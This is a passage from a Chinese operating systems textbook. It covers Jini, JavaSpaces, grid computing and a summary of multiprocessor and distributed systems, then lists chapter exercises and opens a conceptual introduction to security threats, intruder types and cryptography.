在Jini世界中有大量自包含的Jini设备，其中的每一个设备都为其他的设备提供了一种或多种服务。可以把Jini设备插入到网络中，并且立即开始提供和使用服务，这并不需要复杂的安装过程。请注意，这些设备是被插入到网络中，而不是如同传统那样插入到计算机中。一个Jini设备可以是一台传统的计算机，但也可以是一台打印机、掌上电脑、蜂窝电话、电视机、立体音响或其他带有CPU、一些存储器以及一个（可能是无线）网络连接的设备。Jini系统是Jini设备的一个松散联邦，Jini设备可以依照自己的意愿进入和离开该联邦，不存在集权式的管理。
当一个Jini设备想加入Jini联邦时，它在本地局域网上广播一个包，或者在本地无线蜂窝网上询问是否存在查询服务（lookup service）。用于寻找查询服务的协议是发现协议（discovery protocol）以及若干Jini硬线协议中的某一个。（另一种寻找方法是，新的Jini设备可以等待直到有一个周期性的查询服务公告经过，但是我们不会在这里讨论这种机制）。
当查询服务看到有一个新的设备想注册时，它用一段可以用来完成注册的代码作为回答。由于Jini是纯的Java系统，被发送的代码是JVM（Java虚拟机语言）形式的，所有的Jini设备必定能运行它，通常是以解释方式运行。接着，新设备运行该代码，代码同查询服务联系并且在某个固定的时间段中进行注册。在该时间段失效之前，如果有意愿，该设备就可以注册。这一机制意味着，一个Jini设备可以通过关机的方式离开系统，有关该设备的曾经存在的状态很快就会被遗忘掉，不需要任何集中性的管理。注册一定的时间间隔的做法，称为取得一项租约（lease）。
请注意，由于用于注册设备的代码是通过下载进入设备的，因此注册用的代码会随着系统演化而被修改掉，不过系统的演进并不会影响设备的硬件和软件。事实上，设备甚至不用明白什么是注册协议。设备所需明白的只是整个注册过程中的一段，即注册的设备提供的一些属性和代理代码，这样其他设备稍后将会使用这些属性和代理代码，以便访问该设备。
寻找某个特定服务的设备和用户可以请求查询服务是否知道这样的一个特定服务存在。在该请求中可以包含设备在注册时使用的属性。如果请求成功，在该设备注册时所提供的代理就会被送回给请求者，并且加以运行以联络有关设备。这样，设备或用户就可以同其他的设备对话，而无须知道对方在哪里，甚至也无须知道对话所用的协议是何种协议。
Jini客户机和服务（硬件或软件设备）使用JavaSpace进行通信和同步，这方式实际是模仿Linda的元组空间，但存在一些重要的差别。每个JavaSpace由一些强类型的记录项组成。这些记录项与Linda的元组类似，不过它们是强类型的，而Linda的元组则是无类型的。在每个记录项中包含一些域，每个域中有一个基本Java类型。例如，一个雇员类型的记录项可以包括一个字符串（用于姓名）、一个整数（用于部门）、第二个整数（用于电话分机号）以及一个布尔值（用于全时工作）。
在JavaSpace中只定义了四个方法（尽管其中的两个方法还有一个变种）：
1)Write：把一个记录项放入JavaSpace。
2)Read：将一个与模板匹配的记录项复制出JavaSpace。
3)Take：复制并移走一个与模板匹配的记录项。
4)Notify：当一个匹配的记录项写入时通知调用者。
write方法提供记录项并确定其租约时间，即何时应该丢弃该记录项。相反，Linda的元组则一直停留着直到被移出为止。在JavaSpace中可以保存有同一个记录项的多个副本，所以它不是一个数学意义上的集合（如同Linda那样）。
read和take方法为要寻找的记录项提供了一个模板。在该模板的每个域中有一个必须匹配的特定值，或者可以包含一个“不在乎”的通配符，该通配符可以匹配所有合适的类型的值。如果发现一个匹配，则返回该记录项，而在take的情形下，该记录项还被移出了JavaSpace空间。这些JavaSpace方法中的每一个都有两个变种，在没有匹配到记录项时，它们之间有所差别。其中一个变种即刻返回一个失败的标识。而另一个则一直等到时间段（作为一个参数给定）到期为止。
notify方法用一个特殊模板注册兴趣。如果以后进来了一个相匹配的记录项，就调用调用者的notify方法。
与Linda中的元组空间不同，JavaSpace支持原子事务处理。通过使用原子事务处理，可以把多个方法聚集在一起。它们要么全部都执行，要么全部都不执行。在该事务处理期间，在该事务处理之外对JavaSpace的修改是不可见的。只有在该事务处理结束之后，它们才对其他的调用者可见。
可以在通信进程之间的同步中运用JavaSpace。例如，在生产者-消费者的情形下，生产者在产品生产出来之后可以把产品放进JavaSpace中。消费者使用take取走这些产品，如果产品没有了就阻塞。JavaSpace保证每个方法的执行都是原子性的，所以不会出现当一个进程试图读出一个记录项时，该记录项仅仅完成了一半进入的危险。
如果没有谈及最新的发展，即在未来有可能变得非常重要的网格，那么，对于分布式系统的论述将是不完整的。所谓网格（grid），是一个大的、地理上分散的、通常是由私有网络或因特网连接起来的异构机器的集合，向用户提供一系列服务。有时候网格也被比作虚拟超级计算机，但其实还不只是这样。它是很多独立计算机的集合，一般位于多个管理域中，所有的这些管理域都会运行中间件的一个公共的中间件层以便用户和程序可以通过方便和一致的方式访问所有资源。
构建网格的初始动机是为了CPU的时钟周期共享。当时的想法是：当一个机构不需要它的全部的计算能力时（例如在夜间），另一个机构（可能相隔好几个时区）就可以利用这些时钟周期，并且12小时之后也对外提供这样的帮助。现在，网格研究人员也在关注其他资源的共享，尤其是专门硬件和数据库。
典型地，网格的工作原理是：在每个参与的机器中运行一组管理机器并且把它加入到网格中的程序。这个程序通常需要处理认证及远程用户登录、资源发布及发现、作业调度及分配等。当某个用户有工作需要计算机来做时，网格软件决定哪里有空闲的硬件、软件和数据资源来完成这项工作，然后将作业搬运过去，安排执行并收集计算结果返回给用户。
在网格世界中，一个流行的中间件叫Globus Toolkit，它在很多平台上都是可用的并且支持很多（即将出现的）网格标准（Foster，2005）。Globus通过灵活和安全的方式提供一个供用户共享计算机、文件以及其他资源的平台，同时又不会牺牲本地的自治性。网格正在成为很多分布式应用的构建基础。
在本章中，我们考察了四类多处理器系统：多处理器、多计算机、虚拟机和分布式系统。下面简要地介绍在这些领域中的有关研究工作。
在多处理器领域中的多数研究与硬件有关，特别是与如何构建共享存储器和保持其一致性（如Higham等人，2007）有关。然而，还有一些关于多处理器的其他研究，特别是片上多处理器，包括编程模型和随之带来的操作系统问题（Fedorova等人，2005；Tan等人，2007）、通信机制（Brisolara等人，2007）、软件的能源管理（Park等人，2007）、安全（Yang和Peng，2006）还有未来的挑战（Wolf，2004）。另外，对调度的研究也总是很流行（Chen等人，2007；Lin和Rajaraman，2007；Rajagopalan等人，2007；Tam等人，2007；Yahav等人，2007）。
多计算机比多处理器更容易构建。所需要的只是一批PC机或工作站，以及一个高速网络。由于这个原因，在大学中多计算机是一个热门的研究课题。有许多工作与这样或那样的分布式共享存储器有关，有些是基于页面的，有些是在整个软件中的（Byung-Hyun等人，2004；Chapman和Heiser，2005；Huang等人，2001；Kontothanassis等人，2005；Nikolopoulos等人，2001；Zhang等人，2006）。编程模型也正在被研究（Dean和Ghemawat，2004）。当规模达到好几万个CPU的时候，数据中心的能源使用也是一个问题（Bash和Forman，2007；Ganesh等人，2007；Villa，2006）。
虚拟机是一个特别热门的话题，针对不同的方面有许多论文，包括能源管理（Moore等人，2005；Stoess等人，2007）、内存管理（Lu和Shen，2007）和信任管理（Garfinkel等人，2003；Lei等人，2003）。安全也是一个方面（Jaeger等人，2007）。性能优化也是一个很有意思的问题，特别是CPU的性能（King等人，2003）、网络性能（Menon等人，2006）、I/O性能（Cherkasova和Gardner，2005；Liu等人，2006）。虚拟机使得迁移变得可行，所以这个话题也引起了关注（Bradford等人，2007；Huang等人，2007）。虚拟机也已经被用来调试操作系统（King等人，2005）。
随着分布式计算的发展，已经有很多关于分布式文件及存储系统方面的研究，遇到的问题包括：遭遇软硬件错误、人为错误、自然灾害时的长期可维护性（Baker等人，2006；Kotla等人，2007；Maniatis等人，2005；Shah等人，2007；Storer等人，2007）、使用不可信的服务器（Adya等人，2002；Popescu等人，2003）、认证（Kaminsky等人，2003）和分布式文件系统的可扩展性（Ghemawat等人，2003；Saito，2002；Weil等人，2006）。如何扩展分布式系统也已经被研究（Peek等人，2007）。点对点（P2P）分布式文件系统也被广泛地研究（Dabek等人，2001；Gummadi等人，2003；Muthitacharoen等人，2002；Rowstron和Druschel，2001）。在有一些节点可以移动的情况下，能源有效利用率也开始变得很重要（Nightingale和Flinm，2004）。
采用多个CPU可以把计算机系统建造得更快更可靠。CPU的四种组织形式是多处理器、多计算机、虚拟机和分布式系统。其中的每一种都有其自己的特性和问题。
一个多处理器包括两个或多个CPU，它们共享一个公共的RAM。这些CPU可以通过总线、交叉开关或一个多级交换网络互连起来。各种操作系统的配置都是可能的，包括给每个CPU配一个各自的操作系统、配置一个主操作系统而其他是从属的操作系统或者是一个对称多处理器，在每个CPU上都可运行的操作系统的一个副本。在后一种情形下，需要用锁提供同步。当没有可用的锁时，一个CPU会空转或者进行上下文切换。各种调度算法都是可能的，包括分时、空间分割以及群调度。
多计算机也有两个或更多的CPU，但是这些CPU有自己的私有存储器。它们没有任何公共的RAM，所以全部的通信通过消息传递完成。在有些情形下，网络接口卡有自己的CPU，此时在主CPU和接口板上的CPU之间的通信必须仔细地组织，以避免竞争条件的出现。在多计算机中的用户级通信常常使用远程过程调用，但也可以使用分布式共享存储器。这里进程的负载平衡是一个问题，有多种算法用以解决该问题，包括发送者-驱动算法、接收者-驱动算法以及竞标算法等。
虚拟机允许一个或多个实际的CPU提供比现有CPU数量更多的假象。通过这种方式，可以同时在同一个硬件上运行多种操作系统，或者同一个操作系统的不同（不兼容）的版本。当结合了多核的设计，每台计算机就变成了一个潜在的大规模多计算机。
分布式系统是一个松散耦合的系统，其中每个节点是一台完整的计算机，配有全部的外部设备以及自己的操作系统。这些系统常常分布在较大的地理区域内。在操作系统上通常设计有中间件，从而提供一个统一的层次以方便与应用程序的交互。中间件的类型包括基于文档、基于文件、基于对象以及基于协调的中间件。有关的一些例子有World Wide Web、CORBA、Linda以及Jini。
1.可以把USENET新闻组系统和SETI@home项目看作分布式系统吗？（SETI@home使用数百万台空闲的个人计算机，用来分析无线电频谱数据以搜寻地球之外的智慧生物）。如果是，它们属于图8-1中描述的哪些类？
2.如果一个多处理器中的两个CPU在同一时刻，试图访问内存中同一个字，会发生什么事情？
3.如果一个CPU在每条指令中都发出一个内存访问请求，而且计算机的运行速度是200MIPS，那么多少个CPU会使一个400MHz的总线饱和？假设对内存的访问需要一个总线周期。如果在该系统中使用缓存技术，且缓存命中率达到90%，那么多少个CPO会使总线饱和？最后，如果要使32个CPU共享该总线而且不使其过载，需要多高的命中率？
4.在图8-5的omega网络中，假设在交换网络2A和交换网络3B之间的连线断了。那么哪些节点之间的联系被切断了？
5.在图8-7的模型中，信号是如何处理的？
6.使用纯read重写图2-22中的enter_region代码，用以减少由TSL指令所引起的颠簸。
7.多核CPU开始在普通的桌面机和笔记本电脑上出现，拥有数十乃至数百个核的桌面机也为期不远了。利用这些计算能力的一个可能的方式是将标准的桌面应用程序并行化，例如文字处理或者Web浏览器；另一个可能的方式是将操作系统提供的服务（例如TCP操作）和常用的库服务（例如安全http库函数）并行化。你认为哪一种方式更有前途？为什么？
8.为了避免竞争，在SMP操作系统代码段中的临界区真的有必要吗，或者数据结构中的互斥信号量也可完成这项工作吗？
9.在多处理器同步中使用TSL指令时，如果持有锁的CPU和请求锁的CPU都需要使用这个拥有互斥信号量的高速缓冲块，那么这个拥有互斥信号量的高速缓冲块就得在上述两个CPU之间来回穿梭。为了减少总线交通的繁忙，每隔50个总线周期，请求锁的CPU就执行一条TSL指令，但是持有锁的CPU在两条TSL指令之间需要频繁地引用该拥有互斥信号量的高速缓冲块。如果一个高速缓冲块中有16个32位字，每一个字都需要用一个总线周期传送，而该总线的频率是400MHz，那么高速缓冲块的来回移动会占用多少总线带宽？
10.课文中曾经建议在使用TSL轮询锁之间使用二进制指数补偿算法。也建议过在轮询之间使用最大时延。如果没有最大时延，该算法会正确工作吗？
11.假设在一个多处理器的同步处理中没有TSL指令。相反，提供了另一个指令SWP，该指令可以把一个寄存器的内容交换到内存的一个字中。这个指令可以用于多处理器的同步吗？如果可以，它应该怎样使用？如果不行，为什么它不行？
12.在本问题中，读者要计算把一个自旋锁放到总线上需要花费总线的多少装载时间。假设CPU执行每条指令花费5纳秒。在一条指令执行完毕之后，不需要任何总线周期，例如，执行TSL指令。每个总线周期比指令执行时间长10纳秒甚至更多。如果一个进程使用TSL循环试图进入某个临界区，它要耗费多少的总线带宽？假设通常的高速缓冲处理正在工作，所以取一条循环体中的指令并不会浪费总线周期。
13.图8-12用于描绘分时环境，为什么在b部分中只出现了进程A？
14.亲和调度减少了高速缓冲的失效。它也减少TLB的失效吗？对于缺页呢？
15.对于图8-16中的每个拓扑结构，互连网络的直径是多少？请计算该问题的所有跳数（主机-路由器和路由器-路由器）。
16.考虑图8-16 d中的双凸面拓扑，但是扩展到k×k。该网络的直径是多少？提示：分别考虑k是奇数和偶数的情况。
17.互联网络的平分贷款经常用来测试网络容量。其计算方法是，通过移走最小数量的链接，将网络分成两个相等的部分。然后把被移走链接的容量加入进去。如果有很多方法进行分割，那么最小带宽就是其平分带宽。对于有一个8×8×8立方体的互连网络，如果每个链接的带宽是1Gbps，那么其平分带宽是多少？
18.如果多计算机系统中的网络接口处于用户模式，那么从源RAM到目的RAM只需要三个副本。假设该网络接口卡接收或发送一个32位的字需要20ns，并且该网络接口卡的频率是1Gbps。如果忽略掉复制的时间，那么把一个64字节的包从源送到目的地的延时是多少？如果考虑复制的时间呢？接着考虑需要有两次额外复制的情形，即在发送方将数据复制到内核的时间，和在接收方将数据从内核中取出的时间。在这种情形下的延时是多少？
19.对于三次复制和五次复制的情形，重复前一个问题，不过这次是计算带宽而不是计算延时。
20.在共享存储器多处理器和多计算机之间send和receive的实现要有多少差别，这些差别对性能有何影响？
21.在将数据从RAM传送到网络接口时，可以使用钉住页面的方法，假设钉住和释放页面的系统调用要花费1微秒时间。使用DMA方法复制速度是5字节/纳秒，而使用编程I/O方法需要20纳秒。一个数据包应该有多大才值得钉住页面并使用DMA方法？
22.将一个过程从一台机器中取出并且放到另一台机器上称为RPC，但会出现一些问题。在正文中，我们指出了其中四个：指针、未知数组大小、未知参数类型以及全局变量。有一个未讨论的问题是，如果（远程）过程执行一个系统调用会怎样。这样做会引起什么问题，应该怎样处理？
23.在DSM系统中，当出现一个页面故障时，必须对所需要的页面进行定位。请列出两种寻找该页面的可能途径。
24.考虑图8-24中的处理器分配。假设进程H从节点2被移到节点3上。此时的外部信息流量是多少？
25.某些多计算机允许把运行着的进程从一个节点迁移到另一个节点。停止一个进程，冻结其内存映像，然后就把他们转移到另一个节点上是否足够？请指出要使所述的方法能够工作的两个必须解决的问题。
26.考虑能同时支持最多n个虚拟机的I型管理程序，PC机最多可以有4个主磁盘分区。请问n可以比4大吗？如果可以，数据可以存在哪里？
27.处理客户操作系统使用普通（非特权）指令改变页表的一个方式是将页表标记为只读，所以当它被修改的时候系统陷入。还有什么方式可以维护页表副本（shadow page table）？比较你的方法与只读页表方式在效率上的差别。
28.VMware每次对一个基本块进行二进制转换，然后执行这个基本块并开始转换下一个基本块。它能事先转换整个程序然后执行吗？如果能，每种技术的优点和缺点分别是什么？
29.如果一个操作系统的源代码可以得到，对半虚拟化一个操作系统有意义吗？如果源代码不能得到呢？
30.各种PC在底层会有微小的差别，例如如何管理时钟、如何处理中断以及DMA方面的一些细节。那么这些差别是否意味着虚拟机在实际中不能够很好地工作？请解释你的答案。
31.在以太网上为什么会有对电缆长度的限制？
32.在一台PC上运行多个虚拟机需要大量的内存，为什么？你能想出什么方式降低内存的使用量？请解释理由。
33.在图8-30中，四台机器上的第三层和第四层标记为中间件和应用。在何种角度上它们是跨平台一致的，而在何种角度上它们是跨平台有差异的？
34.在图8-33中列出了六种不同的服务。对于下面的应用，哪一种更适用？
a)Internet上的视频点播。
b)下载一个网页。
35.DNS的名称有一个层次结构，如cs.uni.edu或sales.general-widget.com。维护DNS数据库的一种途径是使用一个集中式的数据库，但是实际上并没有这样做，其原因是每秒钟会有太多的请求。请提出一个实用的维护DNS数据库的建议。
36.在讨论浏览器如何处理URL时，曾经说明与端口80连接。为什么？
37.虚拟机迁移可能比进程迁移容易，但是迁移仍然是困难的。在虚拟机迁移的过程中会产生哪些问题？
38.在显示网页中使用的URL可以透明吗？请解释理由。
39.当浏览器获取一个网页时，它首先发起一个TCP链接以获得页面上的文本（该文本用HTML语言写成）。然后关闭链接并分析该页面。如果页面上有图形或图标，就发起不同的TCP链接以获取它们。请给出两个可以改善性能的替代建议。
40.在使用会话语义时，有一项总是成立的，即一个文件的修改对于进行该修改的进程而言是立即可见的，而对其他机器上的进程而言是绝对不可见的。不过存在一个问题，即这种修改对同一台机器上的其他进程是否应该立即可见。请提出正反双方的争辩意见。
41.当有多个进程需要访问数据时，基于对象的访问在哪些方面要好于共享存储器？
42.在Linda的in操作完成对一个元组的定位之后，线性地查询整个元组空间是非常低效率的。请设计一个组织元组空间的方式，可以在所有的in操作中加快查询操作。
43.缓存区的复制很花费时间。写一个C程序找出你访问的系统中这种复制花费了多少时间。可使用clock或times函数用以确定在复制一个大数组时所花费的时间。请测试不同大小的数组，以便把复制时间和系统开销时间分开。
44.编写可作为客户机和服务器代码片段的C函数，使用RPC来调用标准printf函数，并编写一个主程序来测试这些函数。客户机和服务器通过一个可在网络上传输的数据结构实现通信。读者可以对客户机所能接收的格式化字符串长度以及数字、类型和变量的大小等方面设置限制。
45.写两个程序用以模拟一台多计算机上的负载平衡。第一个程序应该按照一个初始化文件把m个进程分布到n个机器上。每个进程应该有一个通过Gaussian分布随机挑选的运行时间，即该分布的平均值和标准偏差是模拟的参数。在每次运行的结尾，进程创建一些新的进程，按照Poisson分布选择这些新进程。当一个进程退出时，CPU必须确定是放弃进程或是寻找新的进程。如果在机器上有总数超过k个进程的话，第一个程序应该使用发送者驱动算法放弃工作。第二个程序在必要时应该使用接收者驱动算法获得工作。请给出所需要的合理假设，但要写出清楚的说明。
46.写一个程序，实现8.2节中描述的发送方驱动和接收方驱动的负载平衡算法。这个算法必须把新创建的作业列表作为输入，作业的描述为（creating_processor，start_time，required_CPU_time），其中creating_processor表示创建作业的CPU序号，start_time表示创建作业的时间，required_CPU_time表示完成作业所需要的时间（以秒为单位）。当节点在执行一个作业的同时有第二个作业被创建，则认为该节点超负荷。在重负载和轻负载的情况下分别打印算法发出的探测消息的数目。同时，也要打印任意主机发送和接收的最大和最小的探针数。为了模拟负载，要写两个负载产生器。第一个产生器模拟重的负载，产生的负载为平均每隔AJL秒N个作业，其中AJL是作业的平均长度，N是处理器个数。作业长度可能有长有短，但是平均作业长度必须是AJL。作业必须随机地创建（放置）在所有处理器上。第二个产生器模拟轻的负载，每AJL秒随机地产生（N/3）个作业。为这两个负载产生器调节其他的参数设置，看看是如何影响探测消息的数目。
47.实现发布/订阅系统的最简单的方式是通过一个集中的代理，这个代理接收发布的文章，然后向合适的订阅者分发这些文章。写一个多线程的应用程序来模拟一个基于代理的发布/订阅系统。发布者和订阅者线程可以通过（共享）内存与代理进行通信。每个消息以消息长度域开头，后面紧跟着其他字符。发布者给代理发布的消息中，第一行是用“.”隔开的层次化主题，后面一行或多行是发布的文章正文。订阅者给代理发布的消息，只包含着一行用“.”隔开的层次化的兴趣行（interest line），表示他们所感兴趣的文章。兴趣行可能包含“*.”等通配符，代理必须返回匹配订阅者兴趣的所有（过去的）文章，消息中的多篇文章通过“BEGIN NEW ARTICLE”来分隔。订阅者必须打印他接收到的每条消息（如他的兴趣行）。订阅者必须连续接收任何匹配的新发布的文章。发布者和订阅者线程可通过终端输入“P”或“S”的方式自由创建（分别对应发布者和订阅者），后面紧跟的是层次化的主题或兴趣行。然后发布者需要输入文章，在某一行中键入“.”表示文章结束。（这个作业也可以通过基于TCP的进程间通信来实现）。
许多公司持有一些有价值的并加以密切保护的信息。这些信息可以是技术上的（如新款芯片或软件的设计方案）、商业上的（如针对竞争对手的研究报告或营销计划）、财务方面的（如股票分红预案）、法律上的（如潜在并购方案的法律文本）以及其他可能有价值的信息。公司通常在存放这些信息的大楼入口处安排佩带统一徽章的警卫，由他们来检查进入大楼的人群。并且，办公室和文件柜通常会上锁以确保只有经过授权的人才能接触到这类信息。
家用计算机也越来越多地开始保存重要的数据。很多人将他们的纳税申报单和信用卡号码等财务信息保存在计算机上。情书也越来越多地以电子信件的方式出现。目前计算机硬盘已经装满了重要的照片、视频以及电影。
随着越来越多的信息存放在计算机系统中，确保这些信息的安全就变得越来越重要。对所有的操作系统而言，保护此类信息不被未经许可地滥用是主要考虑的问题。然而，随着计算机系统的广泛使用（和随之而来的系统缺陷），保证信息安全也变得越来越难。在下面的小节里，我们将讨论有关安全与防护的若干话题，其中一些内容与我们保护现实生活中的纸质文件比较相似，而另一些则是计算机系统所独有的。在这一章里，我们将考察安装了操作系统之后的计算机安全特性。
有关操作系统安全的话题在过去的二十年里产生了很大的变化。在20世纪90年代早期之前，少数家庭才拥有计算机，几乎所有的计算都是在公司、大学和其他一些拥有多用户计算机（从大型机到微型计算机）的组织中完成的。这些机器几乎都是相互隔离的，没有任何一台被连接到网络中。在这样的环境下，保证安全性所要做的全部工作就集中在了如何保证每个用户只能看到自己的文件。如果Tracy和Marcia是同一台计算机的两个注册用户，那么“安全性”就是保证他们谁都不能读取或修改对方的文件，除非这个文件被设为共享权限。复杂的模型和机制被开发出来，以保证没有哪个用户可以获取非法权限。
有时这种安全模型和机制涉及一类用户，而非单个用户。例如，在一台军用计算机中，任何数据都必须被标记为“绝密”、“机密”、“秘密”或“公开”，而且下士不能允许查看将军的目录，不论这个下士是谁，无论他想要查看的将军是谁，这种越权访问都必须被禁止。在过去的几十年中，这样的问题被反复地研究、报道和解决。
当时一个潜在的假设是，一旦选定了一个模型并据此实现了安全系统，那么实现该系统的软件也是正确的，会完全执行选定的安全策略。通常情况下，模型和软件都非常简单，因此该假设常常是成立的。即如果Tracy理论上不被允许查看Marcia的某个文件，那么她的确无法查看。
随着个人计算机和互联网的普及，以及公用大型机和小型机的消失，情况发生了变化（尽管不是翻天覆地的变化，在局域网的公共服务器与公用小型计算机很相似）。至少对于家庭用户来说，他们受到非法用户入侵并被窃取信息的威胁变得不存在了，因为别人不能使用他们的计算机。
不幸的是，就在这些威胁消失的同时，另一种威胁悄然而至（威胁守恒的法则？）：来自外部的攻击。病毒（Virus）、蠕虫（Worm）和其他恶意代码通过互联网开始在计算机中蔓延，并肆无忌惮地进行破坏。它们的帮凶是软件漏洞的爆炸性增长，这些大型软件已经开始取代以前好用的小软件。当下的操作系统包括五百万行以上的内核代码和100MB级的应用程序来规定系统的应用准则，使得系统中存在大量可以被恶意代码利用的漏洞。因此我们现在从形式上证明是安全的系统却可能很容易被侵入，因为代码中的漏洞可能允许恶意软件做一些原则上被禁止的事情。
基于以上问题，本章将分为两部分进行讨论。9.1节从一些细节上分析系统威胁，看看哪些是我们想要保护的。9.2节介绍了安全领域中基本但却重要的工具：现代密码学。9.3节介绍了关于安全的形式化模型，并论述如何在用户之间进行安全的访问和保护，这些用户既有保密的数据，也有与其他用户共享的数据。
接下来的五节将讨论实际存在的安全问题，对实际的恶意代码防护和计算机安全研究前沿进行讨论，最后是一个简短的总结。
值得注意的是，尽管本书是关于操作系统的，然而操作系统安全与网络安全之间却有着不可分离的联系，无法将它们分开讨论。例如，病毒通过网络侵入到计算机中，破坏操作系统。总而言之，我们趋于做足工作，即包含很多与主题紧密相关却并不属于操作系统研究领域的内容。
我们从几个术语的定义来开始本章的学习。有些人不加区分地使用“安全”（security）和“防护”（protection）两个术语。然而，当我们讨论基本问题时有必要去区分“安全”与“防护”的含义。这些基本问题包括确保文件不被未经授权的人读取或篡改。这些问题一方面包括涉及技术、管理、法律和政治方面的问题，另一方面也包括使用特定的操作系统机制来提供安全保障的问题。为了避免混淆，我们用术语“安全”来表示所有的基本问题，用术语“防护机制”来表示用特定的操作系统机制确保计算机信息安全。但是两个术语之间的界限没有定义。接下来我们看一看安全问题的特点是什么，稍后我们将研究防护机制和安全模型以帮助获取安全屏障。
安全包含许多方面的内容，其中比较主要的三个方面是威胁的实质、入侵者的本性和数据的意外遗失。我们将分别加以研究。
从安全性角度来讲，计算机系统有四个主要目标，同时也面临着三个主要威胁，如图9-1所示。第一个目标是数据保密（data confidentiality），指将机密的数据置于保密状态。更确切地说，如果数据所有者决定这些数据仅用于特定的人而不是其他人，那么系统就应该保证数据绝对不会发布给未经授权的人。数据所有者至少应该有能力指定谁可以阅读哪些信息，而系统则对用户的选择进行强制执行，这种执行的粒度应该精确到文件。
第二个目标数据完整性（data integrity）是指未经授权的用户没有得到许可就擅自改动数据。这里所说的改动不仅是指改变数据的值，而且还包括删除数据以及添加错误的数据等情况。如果系统在数据所有者决定改动数据之前不能保证其原封未动，那么这样的安全系统就毫无价值可言。
第三个目标系统可用性（system availability）是指没有人可以扰乱系统使之瘫痪。导致系统拒绝服务的攻击十分普遍。比如，如果有一台计算机作为Internet服务器，那么不断地发送请求会使该服务器瘫痪，因为单是检查和丢弃进来的请求就吞噬掉所有的CPU资源。在这样的情况下，若系统处理一个阅读网页的请求需要100µs，那么任何人每秒发送10 000个这样的请求就会导致系统死机。许多合理的系统模型和技术能够保证数据的机密性和完整性，但是避免拒绝服务却相当困难。
最后，近年来操作系统出现了新的威胁，计算机合法用户以外的人可以（通过病毒和其他手段）获取一些家用计算机的控制权，并将这些计算机变成僵尸（zombie），入侵者立即成为这些计算机的新主人。通常情况下，这些僵尸用来发送垃圾邮件，从而使得垃圾邮件的真正来源难以追踪到。
从某种意义上讲，还存在着另一种威胁，这种威胁与其说是针对个人用户的威胁，不如说是对社会的威胁。有些人对某些国家或种族不满，或对世界感到愤怒，妄图摧毁尽可能多的机构，而不在意破坏性和受害者。这些人常常觉得攻击“敌人”的计算机是一件令人愉悦的事情，然而并不在意“攻击”本身。
安全问题的另一个方面是隐私（privacy）：即保证私人的信息不被滥用。隐私会导致许多法律和道德问题。政府是否应该为每个人编制档案来追查罪犯？如盗窃犯或逃税犯。警察是否可以为了制止有组织犯罪而调查任何人或任何事件？当这些特权与个人权益发生冲突时会怎么样？所有这些话题绝对都是十分重要的，但是它们却超出了本书的范围。
我们中的大多数人非常善良并且守法，那么为什么要担心安全问题呢？因为，我们周围的还有少数人并不友好，他们总是想惹麻烦（可能为了自己的商业利益）。从安全性的角度来说，那些喜欢闯入与自己毫不相干区域的人叫做入侵者（intruder）或敌人（adversary）。入侵者表现为两种形式：被动入侵者仅仅想阅读他们无权阅读的文件；主动入侵者则怀有恶意，他们未经授权就想改动数据。当我们设计操作系统抵御入侵者时，必须牢记要抵御哪一种入侵者。通常的入侵者种类包括：
1.非专业用户的随意浏览。许多人的工作台上都有个人计算机并连接到共享文件服务器上。人类的本性促使他们中的一些人想要阅读他人的电子邮件或文件，而这些电子邮件和文件往往没有设防。例如，大多数的UNIX系统在默认情况下新建的文件是可以公开访问的。
2.内部人员的窥视。学生、系统程序员、操作员或其他技术人员经常把进入本地计算机系统作为个人挑战之一。他们通常拥有较高技能，并且愿意花费长时间的努力。
3.为获取利益而尝试。有些银行程序员试图从他们工作的银行窃取金钱。他们使用的手段包括改变应用软件使得利息不被四舍五入而是直接截断，并将截断下来的不足一分钱的部分留给自己，或者调走多年不使用的账户，或者发信敲诈勒索（“付钱给我，否则我将破坏所有的银行记录”）。
4.商业或军事间谍。间谍指那些受到竞争对手或外国的资助并且具有很明确目的的人，他们的目的在于窃取计算机程序、交易数据、专利、技术、芯片设计方案和商业计划等。这些非法企图通常使用窃听手段，有时甚至通过搭建天线来收集目标计算机发出的电磁辐射。
我们必须十分清楚防止敌对国家政府窃取军事秘密与防止学生在计算机系统内放入笑话的不同。安全和防护上所做的努力应该取决于针对哪一类入侵者。
近年来，另一类安全上的隐患就是病毒，我们将在以后的章节中详细讨论它。简而言之，病毒就是一段能够自我复制并通常会产生危害的程序代码。从某种意义上来说，编写病毒的人也是入侵者，他们往往拥有较高的专业技能。一般的入侵者和病毒的区别在于，前者指想要私自闯入系统并进行破坏的个人，后者指被人编写并释放传播企图引起危害的程序。入侵者设法进入特定的计算机系统（如属于银行或五角大楼的某台机器）来窃取或破坏特定的数据，而病毒作者常常想造成破坏而不在乎谁是受害者。
除了恶意入侵造成的威胁外，有价值的信息也会意外遗失。造成数据意外遗失的原因通常包括：
1.天灾：火灾、洪水、地震、战争、暴乱或老鼠对磁带和软盘的撕咬。
2.软硬件错误：CPU故障、磁盘或磁带不可读、通信故障或程序里的错误。
3.人为过失：不正确的数据登录、错误的磁带或磁盘安装、运行了错误的程序、磁带或磁盘的遗失，以及其他的过失等。
上述大多数情况可以通过适当的备份，尤其是对原始数据的远地备份来避免。在防范数据不被狡猾的入侵者获取的同时，防止数据意外遗失应得到更广泛的重视。事实上，数据意外遗失带来的损失比入侵者带来的损失可能更大。
加密在安全领域扮演着非常重要的角色。很多人对于报纸上的字谜（newspaper cryptograms）都不陌生，这种加密算法不过是一个字谜游戏，其中明文中的每个字母被替换为另一个字母。这种加密算法与现代加密算法有着非常紧密的关联（就像热狗与高级烹饪术之间的关系一样）。在本节中我们将鸟瞰计算机时代的密码学，其中的某些内容可能会对读者理解后续章节有所帮助，任何对安全这个话题感兴趣的读者都应该对本章中讲述的基本问题有所了解。但是，对密码学的详细阐述超越了本书的范围。不过，许多优秀的书籍都详细讨论了这一话题，有兴趣的读者可以拿来参考（如Kaufman等人，2002；Pfleeger，2006）。接下来，我们为不太熟悉密码学的读者做一个快速简介。
加密的目的是将明文——也就是原始信息或文件，通过某种手段变为密文，通过这种手段，只有经过授权的人才知道如何将密文恢复为明文。对无关的人来说，密文是一段无法理解的编码。虽然这一领域对初学者来说听上去比较新奇，但是加密和解密算法（函数）往往是公开的。要想确保加密算法不被泄露是徒劳的，否则就会使一些想要保密数据的人对系统的安全性产生错误理解。在专业上，这种策略叫做模糊安全（security by obscurity），而且只有安全领域的爱好者们才使用该策略。奇怪的是，在这些爱好者中也包括了许多跨国公司，但是他们应该是了解更多专业知识的。
